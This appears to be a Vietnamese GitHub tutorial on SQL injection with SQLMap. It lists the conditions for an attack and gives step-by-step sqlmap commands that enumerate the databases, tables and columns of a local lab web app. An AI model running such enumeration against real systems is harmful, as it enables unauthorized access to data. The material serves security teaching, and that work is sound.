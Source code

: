 ##### 2.Điều kiện để tấn công bằng SQLMap

1. **Mục tiêu phải có lỗ hổng SQL Injection**

- Ứng dụng web phải chứa lỗ hổng SQL Injection ở đầu vào dữ liệu, ví dụ:
    - Tham số URL (`?id=1`).
    - Biểu mẫu nhập liệu (Form Input).
    - Header HTTP (User-Agent, Referer, Cookie).
- SQLMap sẽ thử nghiệm và phát hiện các lỗ hổng này.

 2. **Kẻ tấn công phải có quyền truy cập vào ứng dụng web**

- Phải có khả năng gửi yêu cầu HTTP đến máy chủ (trực tiếp hoặc thông qua proxy).

 3. **Hiểu biết cơ bản về mục tiêu**

- Xác định các tham số đầu vào có thể bị khai thác, ví dụ:

```js
http://example.com/page.php?id=1
```

- Phải biết endpoint hoặc URL chứa tham số khả nghi.

4. **Không có cơ chế bảo vệ mạnh mẽ**

- Nếu ứng dụng sử dụng các biện pháp bảo vệ như:
    - **Prepared Statements** hoặc **Parameterized Queries**.
    - **WAF (Web Application Firewall)** hoặc **IDS/IPS**.
    - **Sanitization** và kiểm tra đầu vào nghiêm ngặt.
- Việc khai thác bằng SQLMap sẽ rất khó khăn hoặc không thể thực hiện.

##### 3.Thực hành 

Thực hành với sqlmap có sẵn ở trên máy, nếu không có hãy cài đặt và giải nén qua đường link này : [[https://github.com/sqlmapproject/sqlmap]]

**Bước 1:** Vào Terminal và hướng thư mục đến file sqlmap đã được giải nén

**Bước 2:** Thực hiện câu lệnh để Liệt kê tất cả các **Database** của hệ thống
```js
python sqlmap.py -u "http://127.0.0.1:5000/search?id=1" --dbs
```
![Screenshot 2025-05-27 144646](https://github.com/user-attachments/assets/5e68d8df-441e-4dae-affc-7b6d72af86ed)


**Bước 3:** Thực hiện câu lệnh để liệt kê tất cả các **Tables** của cơ sở dữ liệu mà bạn chọn
```js
python sqlmap.py -u "http://127.0.0.1:5000/search?id=1" -D luutru_thongtin --tables
```

![Screenshot 2025-05-27 144711](https://github.com/user-attachments/assets/47a13e90-2e76-4aa3-8cde-5db2ee26be1e)


**Bước 4:** Thực hiện câu lệnh để liệt kê tất cả các **Colums** của bảng mà bạn chọn
```js
python sqlmap.py -u "http://127.0.0.1:5000/search?id=1" -D luutru_thongtin -T teachers --columns
```

![Screenshot 2025-05-27 144733](https://github.com/user-attachments/assets/926c7750-3aed-474e-9907-22353b742e5f)
